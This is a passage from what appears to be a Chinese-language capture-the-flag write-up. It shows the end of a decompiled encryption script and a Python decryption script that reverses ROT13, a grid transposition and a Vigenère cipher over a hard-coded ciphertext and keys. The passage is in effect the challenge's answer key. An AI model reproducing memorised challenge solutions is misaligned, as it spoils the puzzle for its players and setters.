cipher = encrypt(flag, key)
print('cipher=', cipher)
# okay decompiling /tmp/653240aa20aab.pyc
```

利用在线工具解出`key1`，写出解密脚本:

```python
def rot13(text):
    encrypted_text = ''
    for char in text:
        if 'a' <= char <= 'z':
            encrypted_char = chr((ord(char) - ord('a') + 13) % 26 + ord('a'))
        else:
            if 'A' <= char <= 'Z':
                encrypted_char = chr((ord(char) - ord('A') + 13) % 26 + ord('A'))
            else:
                encrypted_char = char
        encrypted_text += encrypted_char
    else:
        return encrypted_text

def grid_decrypt(cipher):
    decrypt_message = ''
    part_1 = ''
    part_2 = ''
    c = ''
    Cipher = cipher
    if len(cipher) % 2:
        Cipher = cipher[:-1]
        c = cipher[-1]
    for i in range(len(Cipher)):
        if i%2 == 0:
            part_1 += Cipher[i]
        else:
            part_2 += Cipher[i]

    decrypt_message = part_1 + part_2 + c
    return decrypt_message

def vigenere_decrypt(plain_text, key):
    key = rot13(key)
    encrypted_text = ''
    key_length = len(key)
    for i in range(len(plain_text)):
        char = plain_text[i]
        if char.isalpha():
            key_char = key[(i % key_length)]
            shift = ord(key_char.lower()) - ord('a')
            if char.isupper():
                encrypted_char = chr((ord(char) - ord('A') - shift) % 26 + ord('A'))
            else:
                encrypted_char = chr((ord(char) - ord('a') - shift) % 26 + ord('a'))
        else:
            encrypted_char = char
        encrypted_text += encrypted_char
    else:
        return encrypted_text

def decrypt(cipher, key):
    for r in range(10, 21):
        for _ in range(r):
            cipher = cipher[-1] + cipher[:-1]
            cipher = grid_decrypt(cipher)
        # flag = vigenere_decrypt(cipher, key)
        # if 'flag' in flag:
        #         print(flag)
            print(r,_,vigenere_decrypt(cipher,key))

key2 = 'OQTMHDHRNBNYUKUKYDNVZVZV'
cipher = '4n30nac1L1luRjsLn8_B!!oSc3_hXhiTu0}zsr{n_f34GsgHm'
key = 'npusecwelcommmeyouuu'.upper()

decrypt(cipher, key)
```
